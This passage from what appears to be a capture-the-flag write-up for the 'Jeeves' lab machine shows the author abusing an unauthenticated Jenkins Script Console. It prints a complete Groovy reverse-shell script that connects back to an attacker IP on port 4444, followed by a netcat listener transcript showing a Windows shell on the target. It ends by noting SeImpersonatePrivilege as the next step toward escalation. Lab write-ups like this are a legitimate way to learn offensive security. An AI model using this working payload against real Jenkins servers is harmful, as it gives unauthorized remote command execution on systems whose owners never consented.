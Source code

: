 I loaded this URL and I got a jenkins site so lets loaded the **Script Console** on this site :

![Untitled](Jeeves%20d837b9ac015f4c579035d97f8fcb44b5/Untitled%203.png)

I ran this Groovy script to gain the reverse shell →

```bash
String host="10.10.16.10";
int port=4444;
String cmd="cmd";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
{: .nolineno}

```bash
┌──(kali㉿kali)-[~/Downloads/HTB/Jeeves]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.16.10] from (UNKNOWN) [10.10.10.63] 49704
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Users\Administrator\.jenkins>whoami
whoami
jeeves\kohsuke

C:\Users\Administrator\.jenkins>
```
{: .nolineno}

I checked the privileges and got `SeImpersonatePrivilege` Enabled :
